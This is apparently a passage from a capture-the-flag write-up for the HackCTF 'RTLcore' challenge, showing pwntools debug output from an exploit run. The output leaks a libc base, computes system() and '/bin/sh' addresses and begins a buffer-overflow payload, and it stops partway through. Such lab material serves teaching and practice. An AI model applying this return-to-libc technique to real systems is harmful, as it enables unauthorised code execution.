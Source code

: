 ## Result
```bash
mac at ubuntu in ~/Desktop/hackCTF/RTLcore
$ python ex.py
[+] Opening connection to ctf.j0n9hyun.xyz on port 3015: Done
[DEBUG] PLT 0x8048450 read
[DEBUG] PLT 0x8048460 printf
[DEBUG] PLT 0x8048470 gets
[DEBUG] PLT 0x8048480 puts
[DEBUG] PLT 0x8048490 __libc_start_main
[DEBUG] PLT 0x80484a0 dlsym
[DEBUG] PLT 0x80484b0 setvbuf
[DEBUG] PLT 0x80484c0 __gmon_start__
[*] '/home/mac/Desktop/hackCTF/RTLcore/rtlcore'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[DEBUG] PLT 0x176b0 _Unwind_Find_FDE
[DEBUG] PLT 0x176c0 realloc
[DEBUG] PLT 0x176e0 memalign
[DEBUG] PLT 0x17710 _dl_find_dso_for_object
[DEBUG] PLT 0x17720 calloc
[DEBUG] PLT 0x17730 ___tls_get_addr
[DEBUG] PLT 0x17740 malloc
[DEBUG] PLT 0x17748 free
[*] '/home/mac/Desktop/hackCTF/RTLcore/libc.so.6'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[DEBUG] Received 0x57 bytes:
    00000000  ec bd 94 ec  96 b4 20 ed  8c 8c ec 9d  bc ec 97 90  │····│·· ·│····│····│
    00000010  20 ec 95 a1  ec 84 b8 ec  8a a4 ec a4  91 ec 9e 85  │ ···│····│····│····│
    00000020  eb 8b 88 eb  8b a4 2e 2e  2e 0a ed 8c  a8 ec 8a a4  │····│··..│.···│····│
    00000030  ec bd 94 eb  93 9c eb a5  bc 20 ec 9e  85 eb a0 a5  │····│····│· ··│····│
    00000040  ed 95 b4 ec  a3 bc ec 84  b8 ec 9a 94  0a 50 61 73  │····│····│····│·Pas│
    00000050  73 63 6f 64  65 3a 20                               │scod│e: │
    00000057
[DEBUG] Sent 0x15 bytes:
    00000000  21 f0 91 26  21 f0 91 26  21 f0 91 26  21 f0 91 26  │!··&│!··&│!··&│!··&│
    00000010  23 f0 91 26  0a                                     │#··&│·│
    00000015
[DEBUG] Received 0x40 bytes:
    00000000  ec bd 94 eb  93 9c ea b0  80 20 ec 9d  bc ec b9 98  │····│····│· ··│····│
    00000010  ed 95 98 ea  b5 ac eb 82  98 2e 20 ec  a2 8b ec 95  │····│····│·. ·│····│
    00000020  84 2c 20 eb  8b a4 ec 9d  8c 20 eb 8b  a8 ec 84 9c  │·, ·│····│· ··│····│
    00000030  eb a5 bc 20  eb 8d 98 ec  a0 b8 ec a3  bc ec a7 80  │··· │····│····│····│
    00000040
[DEBUG] Received 0x38 bytes:
    00000000  0a eb 84 88  ec 97 90 ea  b2 8c 20 ed  95 84 ec 9a  │····│····│·· ·│····│
    00000010  94 ed 95 9c  20 ea b2 83  ec 9d 80 20  eb b0 94 eb  │····│ ···│··· │····│
    00000020  a1 9c 20 30  78 66 37 64  39 38 30 32  30 20 ec 9d  │·· 0│xf7d│9802│0 ··│
    00000030  bc ea b1 b0  ec 95 bc 0a                            │····│····│
    00000038
[*] libc_base = 0xf7d4f000
[*] system_addr = 0xf7d89940
[*] binsh_addr = 0xf7ea802b
[DEBUG] Sent 0x4f bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
```